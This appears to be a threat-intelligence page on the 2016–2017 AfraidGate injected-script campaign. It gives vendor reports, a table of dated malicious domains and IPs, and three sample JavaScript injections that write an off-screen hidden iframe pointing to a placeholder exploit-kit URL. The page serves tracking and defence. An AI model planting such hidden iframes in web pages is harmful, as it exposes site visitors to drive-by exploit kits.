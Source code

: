#ScriptJS/AfraidGate

## __Publications:__
| Title |  Date Here | Source |Comment|
|---|---|---|---|
|[Dridex Actors Get In the Ransomware Game With "Locky"](https://www.proofpoint.com/us/threat-insight/post/Dridex-Actors-Get-In-the-Ransomware-Game-With-Locky)| 2016-02-16 |Proofpoint||
|[Locky Ransomware Installed Through Nuclear EK](http://researchcenter.paloaltonetworks.com/2016/03/locky-ransomware-installed-through-nuclear-ek/)| 2016-03-21 |PaloAlto||
|[Threat Spotlight: Exploit Kit Goes International Hits 150+ Countries](http://blog.talosintel.com/2016/04/nuclear-exposed.html)| 2016-04-20 |Talos||
|[Highly Popular Anime Site Jkanime Compromised](https://blogs.forcepoint.com/security-labs/highly-popular-anime-site-jkanime-compromised-redirecting-users-neutrino-ek)| 2016-06-21 |Forcepoint||
|[Neutrino EK’s Afraidgate pushed in malvertising attack](https://blog.malwarebytes.com/cybercrime/exploits/2016/09/neutrino-eks-afraidgate-pushed-in-malvertising-attack/)| 2016-09-13 |Malwarebytes|*Payload is Godzilla here. Locky is in fact a 2ndStage*|
|[Fox stealer: another Pony Fork](http://malware.dontneedcoffee.com/2016/09/fox-stealer-another-pony-fork.html)| 2016-09-26 |MalwareDontNeedCoffee||
----

| Date |Domain| IP |
| :------- | :---- | :---|
|170204|torneonis.cattcval.com.ve|138.197.222.151|
|170203|longtrim.datatestserver.com|159.203.30.60|
|170201|kithole.seanconnor.com|159.203.30.60|
|170122|cuprum.poemar.es|146.185.151.179|
|170122|bombarda.mkoussa.com|146.185.151.179|
|170121|pistole.1stclassmunitions.com|146.185.151.179|
|170118|team.motivaplan.com.br|45.55.10.142|
|170110|malina.cfdiweb.mx|178.62.242.179|
|161214|alfio.brasilperfectcity.com|188.166.17.115|
|161209|stylesheet.bittitle.com|138.68.144.43|
|161203|aquarius.away.es|138.68.144.43|
|161127|mikkie.thejwfnet.co.uk|188.166.4.51|
|161124|max.nasasi.com.ar|159.203.18.229|
|161120|parameter.miafp.cl|159.203.18.229|
|161023|club.panduan-ngeblog.com|138.68.135.94|
|161015|round.luc-hariman.com|159.203.2.200|
|161015|alexa.lorea.io|159.203.2.200|
|161011|monte.aguero.com.au|82.196.10.194|
|161003|sp.gridjunky.com|95.85.46.182|
|160930|spower.gogohen.com|95.85.46.182|
|160928|aug.nightrelay.co.za|139.59.171.176|
|160927|monro.nillaraujo.com|139.59.171.176|
|160926|lesley.portcoquitlamweather.ca|188.166.66.191|
|160923|mouse.redvos.com|188.166.66.191|
|160922|rouse.haslhome.com|46.101.93.53|
|160920|test.linonsa.com|146.185.158.150|
|160919|van.readytogo.club|178.62.23.109|
|160918|van.readytogo.club|178.62.23.109|
|160918|knight.manex.us|178.62.23.109|
|160915|vk.manex.us|178.62.23.109|
|160908|note.followthebrowns.com|159.203.3.186|
|160906|ono.bienestando.cl|159.203.3.186|
|160901|murphy.tahubaxoku.com|146.185.172.147|
|160828|ops.latokaski.fi|138.68.18.73|
|160828|nonna.culturizartechillan.cl|138.68.18.73|
|160818|font.enriquemonsalve.cl|178.62.77.103|
|160814|way.minadepreco.com.br|188.166.54.203|
|160814|make.kankerblogger.com|188.166.54.203|
|160811|global.platinoviajes.com.ve|188.166.54.203|
|160801|one.hiiragihoo.com|139.59.160.138|
|160730|temp.blog-sandltnst.co|139.59.160.138|
|160726|leon.stmaryschooldmt.com|46.101.26.161|
|160722|long.revistashine.com.ar|46.101.26.161|
|160713|stown.katieprallphotography.com|188.166.38.125|
|160629|dance.jmestudiocontable.com.ar|139.59.191.79|
|160626|onno.motorgear.com.au|188.166.38.125|
|160626|dron.transportemorelli.com.ar|146.185.173.25|

----
Script example :

```javascript
document.write('<div class="" style="position:absolute; width:399px; height:400px; left:15px; top:-740px;">  <a> </a><div> <a class="menu_link_new"></a> strong<iframe src="[EK HERE]" width=255 height=261 ></ifram'+ 'e><a></a></div><a class=""></a></div>');
```
```javascript
document.write('<div style="position:absolute; width:365px; height:400px; left:10px; top:-475px;">  <a class=""></a><div class="menu-add-name"> <a class="menuaddname"></a> <iframe src="[EK HERE]" width=271 height=278 ></ifram'+'e><a class=""></a></div> </div>');
```
```javascript
document.write('<div style="position:absolute; width:355px; height:363px; left:10px; top:-954px;">  <a class=""></a><div class="menu-add-name"> <a class="menuaddname"></a> <iframe src="[EK HERE]" width=285 height=290 ></ifram'+'e><a class=""></a></div> </div>');
```

